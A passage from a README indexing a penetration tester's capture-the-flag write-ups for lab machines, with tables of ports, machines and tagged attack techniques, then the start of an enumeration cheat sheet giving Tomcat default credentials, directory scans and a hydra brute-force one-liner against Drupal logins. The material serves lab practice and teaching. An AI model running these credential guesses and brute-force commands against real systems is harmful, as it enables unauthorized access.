| 21. | `3000/tcp` | `http/Node.js Express framework` |  | [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 22. | `3232/tcp` |  | [`enumerate_proto_distcc`](https://github.com/7h3rAm/writeups#enumerate_proto_distcc) |  |
| 23. | `3306/tcp` |  | [`enumerate_proto_mysql`](https://github.com/7h3rAm/writeups#enumerate_proto_mysql) |  |
| 24. | `6660/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 25. | `6661/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 26. | `6662/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 27. | `6663/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 28. | `6664/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 29. | `6665/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 30. | `6666/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 31. | `6667/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 32. | `6668/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 33. | `6669/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 34. | `7000/tcp` |  | [`enumerate_app_unrealirc`](https://github.com/7h3rAm/writeups#enumerate_app_unrealirc) |  |
| 35. | `8080/tcp` | `http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`<br /><br />`http/Apache httpd 2.4.29 ((Ubuntu))`<br /><br />`http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)` | [`enumerate_app_apache`](https://github.com/7h3rAm/writeups#enumerate_app_apache), [`enumerate_app_apache_tomcat`](https://github.com/7h3rAm/writeups#enumerate_app_apache_tomcat), [`enumerate_app_coldfusion_files`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_files), [`enumerate_app_coldfusion_version`](https://github.com/7h3rAm/writeups#enumerate_app_coldfusion_version), [`enumerate_app_drupal`](https://github.com/7h3rAm/writeups#enumerate_app_drupal), [`enumerate_app_joomla`](https://github.com/7h3rAm/writeups#enumerate_app_joomla), [`enumerate_app_phpmyadmin`](https://github.com/7h3rAm/writeups#enumerate_app_phpmyadmin), [`enumerate_app_prtg`](https://github.com/7h3rAm/writeups#enumerate_app_prtg), [`enumerate_app_webmin`](https://github.com/7h3rAm/writeups#enumerate_app_webmin), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_proto_rdp`](https://github.com/7h3rAm/writeups#enumerate_proto_rdp), [`enumerate_proto_webdav`](https://github.com/7h3rAm/writeups#enumerate_proto_webdav) | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`exploit_cloudme_bof`](https://github.com/7h3rAm/writeups#exploit_cloudme_bof), [`exploit_gymsystem_rce`](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 36. | `9999/tcp` | `abyss?` |  | [`privesc_anansi`](https://github.com/7h3rAm/writeups#privesc_anansi), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 37. | `10000/tcp` | `http/SimpleHTTPServer 0.6 (Python 2.7.3)` |  | [`exploit_bof`](https://github.com/7h3rAm/writeups#exploit_bof) |
| 38. | `27017/tcp` |  | [`enumerate_app_mongo`](https://github.com/7h3rAm/writeups#enumerate_app_mongo) |  |
| 39. | `28017/tcp` |  | [`enumerate_app_mongo`](https://github.com/7h3rAm/writeups#enumerate_app_mongo) |  |


<a name="machines"></a>
## 💥 Machines [↟](#contents)
|  #  |                                                                                                                                                      Name                                                                                                                                                      |                                    Infra                                    |                                                               Killchain                                                                |                                                                                                                                                                                                                                                                                                                                                                                             TTPs                                                                                                                                                                                                                                                                                                                                                                                            |
|:---:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|:---------------------------------------------------------------------------:|:--------------------------------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|  1. |                                                                                                             [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf)                                                                                                              |              [htb#287](https://app.hackthebox.eu/machines/287)              |                        |             [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login)            |
|  2. |   [Bashed](https://github.com/7h3rAm/writeups/blob/master/htb.bashed/writeup.pdf)<br/><br/>   |              [htb#118](https://app.hackthebox.eu/machines/118)              |                           |                                                                                                                                                                                                                          [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs)                                                                                                                                                                                                                         |
|  3. |                                                                                                   [Billy Madison: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.billymadison1dot1/writeup.pdf)                                                                                                   |        [vh#161](https://www.vulnhub.com/entry/billy-madison-11,161/)        |            |                                                                                                                                                                                                                                                                                      [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers)                                                                                                                                                                                                                                                                                      |
|  4. |   [Blocky](https://github.com/7h3rAm/writeups/blob/master/htb.blocky/writeup.pdf)<br/><br/>   |               [htb#48](https://app.hackthebox.eu/machines/48)               |                           |                                                                                                                                                                                                                          [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers)                                                                                                                                                                                                                         |
|  5. |       [Blue](https://github.com/7h3rAm/writeups/blob/master/htb.blue/writeup.pdf)<br/><br/>       |               [htb#51](https://app.hackthebox.eu/machines/51)               |                             |                                                                                                                                                                                                                                                                                                                                                      [`exploit_smb_ms17_010`](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010)                                                                                                                                                                                                                                                                                                                                                      |
|  6. |                                                                                                           [Brainpan: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.brainpan/writeup.pdf)                                                                                                           |            [vh#51](https://www.vulnhub.com/entry/brainpan-1,51/)            |                     |                                                                                                                                                                                                                                                                                          [`exploit_bof`](https://github.com/7h3rAm/writeups#exploit_bof), [`privesc_anansi`](https://github.com/7h3rAm/writeups#privesc_anansi), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo)                                                                                                                                                                                                                                                                                          |
|  7. |                                                                                      [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf)                                                                                       | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
|  8. |       [Buff](https://github.com/7h3rAm/writeups/blob/master/htb.buff/writeup.pdf)<br/><br/>       |              [htb#263](https://app.hackthebox.eu/machines/263)              |                             |                                                                                                                                                                                                                                                                   [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_gymsystem_rce`](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [`exploit_cloudme_bof`](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)                                                                                                                                                                                                                                                                   |
|  9. |   [Cronos](https://github.com/7h3rAm/writeups/blob/master/htb.cronos/writeup.pdf)<br/><br/>   |               [htb#11](https://app.hackthebox.eu/machines/11)               |                           |                                                                                                                                                                                                                                                                                                                             [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron)                                                                                                                                                                                                                                                                                                                            |
| 10. |                                                                                                                [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf)                                                                                                                 |              [vh#315](https://www.vulnhub.com/entry/dc-6,315/)              |                          |                                                                                                                                                                          [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap)                                                                                                                                                                          |
| 11. |     [Devel](https://github.com/7h3rAm/writeups/blob/master/htb.devel/writeup.pdf)<br/><br/>     |                [htb#3](https://app.hackthebox.eu/machines/3)                |                            |                                                                                                                                                                                                             [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046)                                                                                                                                                                                                            |
| 12. |                                                                                                     [Escalate_Linux: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.escalatelinux/writeup.pdf)                                                                                                      |        [vh#323](https://www.vulnhub.com/entry/escalate_linux-1,323/)        |                |                                                                                                                                                                                                                                                                   [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid)                                                                                                                                                                                                                                                                   |
| 13. |                                                                                                    [FristiLeaks: 1.3](https://github.com/7h3rAm/writeups/blob/master/vulnhub.fristileaks1dot3/writeup.pdf)                                                                                                     |         [vh#133](https://www.vulnhub.com/entry/fristileaks-13,133/)         |             |                                                                                                                                                                                                                             [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid)                                                                                                                                                                                                                            |
| 14. | [Grandpa](https://github.com/7h3rAm/writeups/blob/master/htb.grandpa/writeup.pdf)<br/><br/> |               [htb#13](https://app.hackthebox.eu/machines/13)               |                          |                                                                                                                                                                                                                                                                                                           [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms14_070`](https://github.com/7h3rAm/writeups#privesc_windows_ms14_070)                                                                                                                                                                                                                                                                                                          |
| 15. |   [Granny](https://github.com/7h3rAm/writeups/blob/master/htb.granny/writeup.pdf)<br/><br/>   |               [htb#14](https://app.hackthebox.eu/machines/14)               |                           |                                                                                                                                                                                                                                                                                                           [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms15_051`](https://github.com/7h3rAm/writeups#privesc_windows_ms15_051)                                                                                                                                                                                                                                                                                                          |
| 16. |                                                                                                       [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf)                                                                                                        |       [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/)      |                       |                                                                                                          [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse)                                                                                                         |
| 17. |                                                                                                        [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf)                                                                                                         |       [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)       |                        |                                                                                                                                                                               [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell)                                                                                                                                                                               |
| 18. |                                                                                                          [HackLAB: Vulnix](https://github.com/7h3rAm/writeups/blob/master/vulnhub.vulnix/writeup.pdf)                                                                                                          |          [vh#48](https://www.vulnhub.com/entry/hacklab-vulnix,48/)          |                       |                                                                                                                                                                                                                [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys)                                                                                                                                                                                                               |
| 19. |                                                                                                             [hackme: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.hackme/writeup.pdf)                                                                                                             |            [vh#330](https://www.vulnhub.com/entry/hackme-1,330/)            |                       |                                                                                                                                                                                                                                                                   [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid)                                                                                                                                                                                                                                                                   |
| 20. |                                                                                                                [IMF: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.imf/writeup.pdf)                                                                                                                |              [vh#162](https://www.vulnhub.com/entry/imf-1,162/)             |                          |                                                                                                                                                                                                                                                                                                             [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_bof`](https://github.com/7h3rAm/writeups#privesc_bof)                                                                                                                                                                                                                                                                                                            |
| 21. |                                                                                                    [InfoSec Prep: OSCP](https://github.com/7h3rAm/writeups/blob/master/vulnhub.infosecpreposcp/writeup.pdf)                                                                                                    |        [vh#508](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)       |              |                                                                                                                                                                                                                                                                    [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash)                                                                                                                                                                                                                                                                    |
| 22. |                                                                                                      [Kioptrix: 2014 (#5)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix5/writeup.pdf)                                                                                                       |          [vh#62](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)         |                    |                                                                                                                                                                                                                                                                                    [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd)                                                                                                                                                                                                                                                                                    |
| 23. |                                                                                                     [Kioptrix: Level 1 (#1)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix1/writeup.pdf)                                                                                                     |        [vh#22](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)        |                    |                                                                                                                                                                                                                                                                                                                         [`exploit_modssl`](https://github.com/7h3rAm/writeups#exploit_modssl), [`privesc_modssl`](https://github.com/7h3rAm/writeups#privesc_modssl)                                                                                                                                                                                                                                                                                                                        |
| 24. |                                                                                                    [Kioptrix: Level 1.1 (#2)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix2/writeup.pdf)                                                                                                    |        [vh#23](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)       |                    |                                                                                                                                                                                                                                                                             [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend)                                                                                                                                                                                                                                                                             |
| 25. |                                                                                                    [Kioptrix: Level 1.2 (#3)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix3/writeup.pdf)                                                                                                    |        [vh#24](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)       |                    |                                                                                                                                                                                                                                                                                    [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo)                                                                                                                                                                                                                                                                                    |
| 26. |                                                                                                    [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf)                                                                                                    |        [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)       |                    |                                                                                                                                                                                               [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf)                                                                                                                                                                                               |
| 27. |       [Lame](https://github.com/7h3rAm/writeups/blob/master/htb.lame/writeup.pdf)<br/><br/>       |                [htb#1](https://app.hackthebox.eu/machines/1)                |                             |                                                                                                                                                                                                                                                                                                                                                       [`exploit_smb_usermap`](https://github.com/7h3rAm/writeups#exploit_smb_usermap)                                                                                                                                                                                                                                                                                                                                                       |
| 28. |                                                                                                      [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf)                                                                                                       |         [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/)         |                |                                                                                       [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo)                                                                                       |
| 29. |   [Legacy](https://github.com/7h3rAm/writeups/blob/master/htb.legacy/writeup.pdf)<br/><br/>   |                [htb#2](https://app.hackthebox.eu/machines/2)                |                           |                                                                                                                                                                                                                                                                                                                                                      [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067)                                                                                                                                                                                                                                                                                                                                                      |
| 30. |                                                                                                       [Lin.Security: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.linsecurity1/writeup.pdf)                                                                                                       |          [vh#244](https://www.vulnhub.com/entry/linsecurity-1,244/)         |                 |                                                                                                                                                                                                                         [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group)                                                                                                                                                                                                                        |
| 31. |                                                                                                 [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf)                                                                                                 |      [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)      |             |                                                                                                                                                                                           [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf)                                                                                                                                                                                           |
| 32. |     [Mirai](https://github.com/7h3rAm/writeups/blob/master/htb.mirai/writeup.pdf)<br/><br/>     |               [htb#64](https://app.hackthebox.eu/machines/64)               |                            |                                                                                                                                                                                                                                                                                                                  [`exploit_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_defaultcreds), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers)                                                                                                                                                                                                                                                                                                                 |
| 33. |                                                                                                      [Misdirection: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.misdirection1/writeup.pdf)                                                                                                       |         [vh#371](https://www.vulnhub.com/entry/misdirection-1,371/)         |                |                                                                                                                                                                                                                       [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable)                                                                                                                                                                                                                      |
| 34. |                                                                                                            [Moria: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.moria11/writeup.pdf)                                                                                                            |            [vh#187](https://www.vulnhub.com/entry/moria-11,187/)            |                      |                                                                                                                                                                                                                                                                                                                                                    [`privesc_ssh_knownhosts`](https://github.com/7h3rAm/writeups#privesc_ssh_knownhosts)                                                                                                                                                                                                                                                                                                                                                    |
| 35. |                                                                                                           [Mr-Robot: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.mrrobot1/writeup.pdf)                                                                                                           |           [vh#151](https://www.vulnhub.com/entry/mr-robot-1,151/)           |                     |                                                                                                                                                                                                                                                                             [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap)                                                                                                                                                                                                                                                                             |
| 36. |                                                                                                              [Node: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.node1/writeup.pdf)                                                                                                               |             [vh#252](https://www.vulnhub.com/entry/node-1,252/)             |                        |                                                                                                                                                                                                                                             [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid)                                                                                                                                                                                                                                            |
| 37. | [Optimum](https://github.com/7h3rAm/writeups/blob/master/htb.optimum/writeup.pdf)<br/><br/> |                [htb#6](https://app.hackthebox.eu/machines/6)                |                          |                                                                                                                                                                                                                                                                                                         [`exploit_hfs_cmd_exec`](https://github.com/7h3rAm/writeups#exploit_hfs_cmd_exec), [`privesc_windows_ms16_098`](https://github.com/7h3rAm/writeups#privesc_windows_ms16_098)                                                                                                                                                                                                                                                                                                        |
| 38. | [Shocker](https://github.com/7h3rAm/writeups/blob/master/htb.shocker/writeup.pdf)<br/><br/> |              [htb#108](https://app.hackthebox.eu/machines/108)              |                          |                                                                                                                                                                                                                                                                                                                    [`exploit_shellshock`](https://github.com/7h3rAm/writeups#exploit_shellshock), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers)                                                                                                                                                                                                                                                                                                                   |
| 39. |                                                                                                             [Year of the Fox](https://github.com/7h3rAm/writeups/blob/master/thm.yotf/writeup.pdf)                                                                                                             |              [tryhackme#yotf](https://tryhackme.com/room/yotf)              |                             |                                                                                                                                                                                                                                                         [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_command_injection`](https://github.com/7h3rAm/writeups#exploit_command_injection), [`privesc_env_relative_path`](https://github.com/7h3rAm/writeups#privesc_env_relative_path)                                                                                                                                                                                                                                                         |


<a name="ttps"></a>
## ☢️ TTPs [↟](#contents)
<a name="enumerate"></a>
### ⚙️ Enumerate [🡑](#ttps)
<a name="enumerate_app_apache"></a>
#### enumerate_app_apache [⇡](#enumerate)  
```shell
use directory traversal to checkout the config file:
  /usr/local/etc/apache22/httpd.conf
  /etc/apache2/sites-enabled/000-default.conf
  useful when certain config changes block enumeration

```
  
  
---
<a name="enumerate_app_apache_tomcat"></a>
#### enumerate_app_apache_tomcat [⇡](#enumerate)  
```shell
tomcat manager default creds:
  tomcat:tomcat
  admin:admin
  admin:password
  user:password
  tomcat:s3cret

```
  
[+] https://0xrick.github.io/hack-the-box/jerry/  
  
---
<a name="enumerate_app_coldfusion_files"></a>
#### enumerate_app_coldfusion_files [⇡](#enumerate)  
look for available sub directories and files on a coldfusion install  
```shell
dirb http://<targetip>:<targetport> /usr/share/dirb/wordlists/vulns/coldfusion.txt

```
  
[+] https://medium.com/@_C_3PJoe/htb-retired-box-write-up-arctic-50eccccc560  
  
---
<a name="enumerate_app_coldfusion_version"></a>
#### enumerate_app_coldfusion_version [⇡](#enumerate)  
find out the coldfusion install version  
```shell
http://<targetip>:<targetport>/CFIDE/adminapi/base.cfc?wsdl

```
  
[+] http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf (pg42)  
  
---
<a name="enumerate_app_drupal"></a>
#### enumerate_app_drupal [⇡](#enumerate)  
```shell
version:
  http://<targetip>:<targetport>/CHANGELOG.txt
bruteforce:
  ipaddr="<targetip>"; id=$(curl -s http://$ipaddr/user/ | grep "form_build_id" | cut -d"\"" -f6); hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt $site http-form-post "/?q=user/:name=^USER^&pass=^PASS^&form_id=user_login&form_build_id="$id":Sorry" -V
scan:
  /opt/droopescan/droopescan scan drupal -u http://<targetip>

```
  
[+] https://zayotic.com/posts/oscp-reference/  
  
---
<a name="enumerate_app_joomla"></a>
#### enumerate_app_joomla [⇡](#enumerate)  
```shell
joomscan --url http://<targetip>

```
  
[+] https://zayotic.com/posts/oscp-reference/  
  
---
<a name="enumerate_app_mongo"></a>
#### enumerate_app_mongo [⇡](#enumerate)  
```shell
